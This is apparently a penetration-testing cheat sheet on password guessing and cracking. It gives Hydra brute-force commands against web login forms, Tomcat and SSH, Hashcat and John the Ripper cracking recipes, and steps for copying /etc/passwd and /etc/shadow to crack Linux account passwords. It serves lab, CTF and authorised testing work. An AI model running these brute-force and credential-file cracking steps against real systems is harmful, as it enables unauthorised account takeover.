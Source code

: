 # Password Guessing/Cracking

* **THC-Hydra**

        $ hydra -l <USER> -p <Password> <IP Address> http-post-form “<Login Page>:<Request Body>:<Error Message>”
        $ hydra -l admin -P /usr/share/wordlists/rockyou.txt domain.com http-post-form "/Login.asp?RetURL=%2FDefault%2Easp%3F:tfUName=^USER^&tfUPass=^PASS^:S=logout" -vV -f
        $ hydra -L tomcat_username.lst -P /home/kali/Documents/lab/wordlist/rockyou.txt -s 8080 -f 10.10.10.4 http-get /manager/html
        $ hydra -l john -P rockyou.txt -t 6 ssh://10.10.10.NNN

* **HashCat**

        hashcat -a 0 -m 13100 ./hash.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/d3ad0ne.rule --force

* **John the Ripper**

        john --format=PuTTY --fork=4 key.hash -w=./wordlist.txt

* **findmyhash**
   Crack the password hash using [findmyhash](https://storage.googleapis.com/google-code-archive-downloads/v2/code.google.com/findmyhash/findmyhash.py)

        python findmyhash.py MD5 -h “2d58e0637ec1e94cdfba3d1c26b67d01”

## Common Scenarios

### **Password-Protected ZIP**

1. Convert the password protected ZIP file into a compatible format using `zip2john` tool

        zip2john file.zip > file.hash

2. Crack the password using [john](https://www.openwall.com/john/) 

        sudo john file.hash --fork=4 -w=./rockyou.txt

### **Password Hash** 

1. Identify the hash using [hash-identifier](https://tools.kali.org/password-attacks/hash-identifier)
2. Create `hash.txt` file in following format

        username:MD5HASHVALUEHERE

3. Crack the hash using [john](https://www.openwall.com/john/)

        $ john hash.txt --format=raw-md5 --wordlist=rockyou.txt --rules
        $ sudo john hash.txt -format=raw-sha1 --wordlist=rockyou.txt --rules

### Cracking Linux Account Passwords from /etc/passwd and /etc/shadow

1. Copy contents of `/etc/passwd` into `passwd.txt`
2. Copy contents of `/etc/shadow` into `shadow.txt`
3. Combine the two files using [unshadow](http://manpages.ubuntu.com/manpages/bionic/man8/unshadow.8.html) command

        unshadow passwd.txt shadow.txt > passwords.txt

4. Crack passwords using [john](https://www.openwall.com/john/)

        $ john passwords.txt --wordlist=rockyou.txt

### Cracking a Password Hash from /etc/shadow 

1. Copy the root hash entry from `/etc/shadow` file into a separate text file `hash.txt`
2. Crack the hash using [hashcat](https://hashcat.net/hashcat/)

        hashcat -m 1800 --force hash.txt ./rockyou.txt

## References

* http://tylerrockwell.github.io/defeating-basic-auth-with-hydra/
* https://tools.kali.org/password-attacks/hydra
* [Apache Tomcat Default Credentials - Dictionary Attack Payoad](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt)
* https://www.youtube.com/watch?v=EfqJCKWtGiU
* https://www.hackingarticles.in/beginner-guide-john-the-ripper-part-1/
* https://www.youtube.com/watch?v=EfqJCKWtGiU
* https://pentesterlab.com/exercises/from_sqli_to_shell/course
* https://medium.com/@Kan1shka9/pentesterlab-from-sql-injection-to-shell-walkthrough-7b70cd540bc8
* https://code.google.com/archive/p/findmyhash/
* http://manpages.ubuntu.com/manpages/bionic/man8/unshadow.8.html
* https://null-byte.wonderhowto.com/how-to/crack-shadow-hashes-after-getting-root-linux-system-0186386/
* http://tylerrockwell.github.io/defeating-basic-auth-with-hydra/
* https://linuxhint.com/crack-web-based-login-page-with-hydra-in-kali-linux/
* https://redteamtutorials.com/2018/10/25/hydra-brute-force-https/
* https://unicornsec.com/home/tryhackme-crack-the-hash
